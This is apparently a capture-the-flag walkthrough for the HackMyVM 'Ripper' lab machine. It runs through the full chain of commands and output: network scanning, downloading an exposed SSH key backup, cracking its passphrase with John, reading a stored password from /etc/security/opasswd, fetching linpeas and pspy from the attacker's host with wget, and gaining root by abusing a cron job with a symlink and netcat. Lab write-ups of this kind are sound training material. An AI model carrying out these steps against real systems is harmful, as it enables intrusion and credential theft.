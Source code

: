 <h1 align="center"> Webmaster-HMV: <a href="https://hackmyvm.eu/machines/machine.php?vm=Ripper">Webmaster</a></h1/>


## Net Discover & NMAP
First thinks first

 ```bash
┌──(coolatos㉿CooLaToS)-[~/HMV/Ripper]
└─$ sudo netdiscover -r 10.1.1.1/24 -i eth0 

  Currently scanning: 10.1.1.0/24   |   Screen View: Unique Hosts                                                                                                                                                                            
                                                                                                                                                                                                                                            
 2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                                                                                                                                            
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.1.1.1        08:00:27:12:9a:21      1      60  PCS Systemtechnik GmbH                                                                                                                                                                   
 10.1.1.27       08:00:27:54:51:58      1      60  PCS Systemtechnik GmbH  
 ```
 ```bash
 ┌──(coolatos㉿CooLaToS)-[~/HMV/Ripper]
└─$ ip=10.1.1.27 && url=http://$ip                                                                                                                         
                                                                                  
┌──(coolatos㉿CooLaToS)-[~/HMV/Ripper]
└─$ nmap -v -T5 -p- -sC -sV -oN nmap-$ip.log $ip; clear; cat nmap-$ip.log
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-13 09:21 EEST
# Nmap 7.92 scan initiated Wed Jul 13 09:21:59 2022 as: nmap -v -T5 -p- -sC -sV -oN nmap-10.1.1.27.log 10.1.1.27
Nmap scan report for 10.1.1.27
Host is up (0.00046s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 0c:3f:13:54:6e:6e:e6:56:d2:91:eb:ad:95:36:c6:8d (RSA)
|   256 9b:e6:8e:14:39:7a:17:a3:80:88:cd:77:2e:c3:3b:1a (ECDSA)
|_  256 85:5a:05:2a:4b:c0:b2:36:ea:8a:e2:8a:b2:ef:bc:df (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 13 09:22:10 2022 -- 1 IP address (1 host up) scanned in 10.88 seconds
 ```
##Visiting the website 
```bash
 ┌──(coolatos㉿CooLaToS)-[~/HMV/Ripper]
└─$ firefox $ip
```
Nothing special found on the website/source code etc.

##Nikto
 ```bash
 ┌──(coolatos㉿CooLaToS)-[~/HMV/Ripper]
└─$ nikto -h $url -C all -output nikto-test.html -Format HTML 
```
Again nothing special

##Feroxbuster
 ```bash
 ┌──(coolatos㉿CooLaToS)-[~/HMV/Ripper]
└─$ feroxbuster -e -x txt,php,html,zip,htm,bak,pem -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $url -t 500 -o ferox-$ip.log
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.1.1.27
 🚀  Threads               │ 500
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ ferox-10.1.1.27.log
 💲  Extensions            │ [txt, php, html, zip, htm, bak, pem]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        2l        8w       57c http://10.1.1.27/
200      GET        2l        8w       57c http://10.1.1.27/index.html
200      GET        2l       18w      107c http://10.1.1.27/staff_statements.txt
```
```bash
 ┌──(coolatos㉿CooLaToS)-[~~/HMV/Ripper]
└─$ curl $ip/staff_statements.txt                                                           

The site is not yet repaired. Technicians are working on it by connecting with old ssh connection files. 
```
 Old ssh ? Probably id_rsa.bak
```bash
┌──(coolatos㉿CooLaToS)-[~/HMV/Ripper]
└─$ curl $ip//id_rsa.bak -o id_rsa                                                                                                                                                                                                       1 ⨯
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1876  100  1876    0     0  1338k      0 --:--:-- --:--:-- --:--:-- 1832k
```
P.S the user jack can be found from the vm when you boot it.
 ┌──(coolatos㉿CooLaToS)-[~/HMV/Ripper]
└─$ chmod 600 id_rsa 
┌──(coolatos㉿CooLaToS)-[~/HMV/Ripper]
└─$ ssh jack@$ip -i id_rsa      
Enter passphrase for key 'id_rsa': 
```
We need that passphrase
## John time
```bash
┌──(coolatos㉿CooLaToS)-[~/HMV/Ripper]
└─$ ssh2john id_rsa > hash.txt
┌──(coolatos㉿CooLaToS)-[~/HMV/Ripper]
└─$ john -w /usr/share/wordlists/rockyou.txt --format=SSH 
 ┌──(coolatos㉿CooLaToS)-[~/HMV/Ripper]
└─$ john --show hash.txt     
id_rsa:bananas

1 password hash cracked, 0 left
```
 #SSH
```bash
 ┌──(coolatos㉿CooLaToS)-[~/HMV/Ripper]
└─$ ssh jack@$ip -i id_rsa
Enter passphrase for key 'id_rsa': 
Linux ripper 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul 13 08:59:44 2022 from 10.1.1.11
jack@ripper:~$ 
 ```
 #Enumeration
 Upload linpeas and pspy64
 ```bash
 ┌──(coolatos㉿CooLaToS)-[/opt/enumeration]
└─$ python3 -m http.server 80
 jack@ripper:~$ cd /tmp && wget 10.1.1.11/linpeas.sh && wget 10.1.1.11/pspy64
jack@ripper:/tmp$ ls
linpeas.sh  pspy64 
 jack@ripper:/tmp$ chmod +x linpeas.sh 
jack@ripper:/tmp$ ./linpeas.sh
 ```
##Findings
- user: helder
- /etc/security/opasswd
```bash
jack@ripper:/tmp$ cat /etc/security/opasswd
jack:Il0V3lipt0n1c3t3a
jack@ripper:/tmp$ su jack
Password: 
jack@ripper:/tmp$ su helder
Password: 
helder@ripper:/tmp$
```
 The password is the same for both users

##First Flag
helder@ripper:~$ls
user.txt
##More Enumeration
 I tried again linpeas without but nothing special found
 Lets try pspy64
 ```bash
 helder@ripper:/tmp$chmod +x pspy64 && ./pspy64 
 CMD: UID=0    PID=12824  | /bin/sh -c nc -vv -q 1 localhost 10000 > /root/.local/out && if [ "$(cat /root/.local/helder.txt)" = "$(cat /home/helder/passwd.txt)" ] ; then chmod +s "/usr/bin/$(cat /root/.local/out)" ; fi
 ```
 We can see that this is running every minute
##Exploit
 
 ```bash
 helder@ripper:/tmp$ln -s /root/.local/helder.txt /home/helder/passwd.txt
 helder@ripper:/tmp$nc -lvnp 10000 < root
listening on [any] 10000 ...
 connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 41448
helder@ripper:/tmp$ls -alh /usr/bin/bash
-rwsr-sr-x 1 root root 1.2M Apr 18  2019 /usr/bin/bash
 helder@ripper:/tmp$bash -p
helder@ripper:/tmp$id
uid=1001(helder) gid=1001(helder) euid=0(root) egid=0(root) groups=0(root),1001(helder)
helder@ripper:/tmp$cd /root/
helder@ripper:/root$ls
root.txt
```
